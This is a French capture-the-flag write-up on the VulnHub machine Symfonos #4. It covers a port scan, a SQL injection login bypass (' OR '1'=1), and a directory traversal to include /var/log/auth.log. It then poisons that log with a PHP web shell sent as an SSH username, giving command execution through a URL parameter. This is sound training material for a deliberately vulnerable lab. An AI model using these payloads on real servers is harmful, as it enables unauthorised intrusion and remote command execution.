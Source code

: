 # Solution du CTF Symfonos #4 de VulnHub

Jamais 3 sans 4 avec [cet autre CTF](https://vulnhub.com/entry/symfonos-4,347/).

```
Nmap scan report for 192.168.56.115
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9c17395a417dff6ed5c8e8ac805f98f (RSA)
|   256 bec1fdf13364399a683564f9bd27ec01 (ECDSA)
|_  256 66f76ae8edd51d2d36326439384f9c8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

Comme pour le précédent il faut énumérer un moment le serveur web avant de trouver quelque chose d'intéressant.

Un premier lieu je trouve un dossier `/gods` contenant trois fichiers à l'extension `.log` nommés après les dieux `hades`, `poseidon` et `zeus`.

Dans un second temps je trouve un fichier `sea.php` qui redirige vers une mire de login `atlantis.php`.

La mire de login en question est bypassable car on parvient à une zone authentifiée si on saisit le nom d'utilisateur `' OR '1'=1`.

On a alors un champ `select` dont les valeurs correspondent aux noms de dieux précédents et la sélection de l'une des entrées affiche le fichier de log correspondant. On est donc sur une faille de directory traversal ou même d'inclusion PHP.

Le script ajoute donc de lui même le préfixe `.log` qui ne semble pas bypassable avec un null byte (`%00` à l'ancienne) et l'inclusion distante n'est pas activée (donc on ne peut pas passer un préfixe `http://` ou ftp://).

## I am payload

Aïe, aïe, aïe il semble qu'on est condamné à inclure un fichier avec l'extension `.log`. Heureusement l'auteur du CTF a pensé à nous car `/var/log/auth.log` est accessible :

http://192.168.56.115/sea.php?file=../../../../var/log/auth

Pour injecter notre code PHP dans ce fichier de log on va se connecter via SSH avec un compte invalide :

```bash
ssh -l '<?php system($_GET[chr(99)]); ?>' 192.168.56.115
```

On peut désormais exécuter des commandes de cett façon :

http://192.168.56.115/sea.php?file=../../../../var/log/auth&c=whoami
